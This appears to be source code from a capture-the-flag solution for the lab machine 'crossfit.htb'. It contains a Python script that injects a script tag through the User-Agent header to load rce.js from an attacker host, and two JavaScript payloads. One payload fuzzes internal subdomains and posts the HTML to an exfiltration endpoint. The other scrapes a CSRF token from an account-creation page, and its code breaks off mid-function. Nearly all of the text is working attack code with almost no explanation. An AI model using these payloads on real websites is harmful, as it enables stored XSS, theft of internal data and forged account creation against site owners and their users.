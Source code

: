 
### XSS Payload Delivery

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
URL = 'http://gym-club.crossfit.htb'

wordlist = open('/usr/share/seclists/Discovery/Web-Content/common.txt', 'r')
# for line in wordlist:
#     sub = line.strip('\n')
payload = f'''<script src="http://10.10.14.13/rce.js"></script>'''

headers = {
        'User-Agent':payload
}
data = {
        'name':'Test',
        'email':'test@test.com',
        'phone':'test',
        'message':'<script>',
        'submit':'submit'
}

r = requests.post(URL + '/blog-single.php', data=data, headers=headers, verify=False, proxies=proxies)
```

### Fuzzing

```js
var scriptSrc = document.currentScript.src;
var url = new URL(scriptSrc);
var customSubdomain = url.searchParams.get('fuzz');
fetch('http://' + customSubdomain + '.crossfit.htb')
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.13:8000/exfil', {
      method: "POST",
      body: html,
    })
  });
```

### Account Creation 

```js
fetch('http://ftp.crossfit.htb/accounts/create', {
  credentials: 'include'
})
  .then(resp => resp.text())
  .then(html => { 
    var parser = new DOMParser();
    var doc = parser.parseFromString(html, 'text/html');
    var csrfTokenElement = doc.querySelector('input[name="_token"]');
    var csrfToken = csrfTokenElement ? csrfTokenElement.value : null;

    fetch('http://10.10.14.13:8000', {
      method: 'POST',
      credentials: 'include', 
      body: html,
    });

```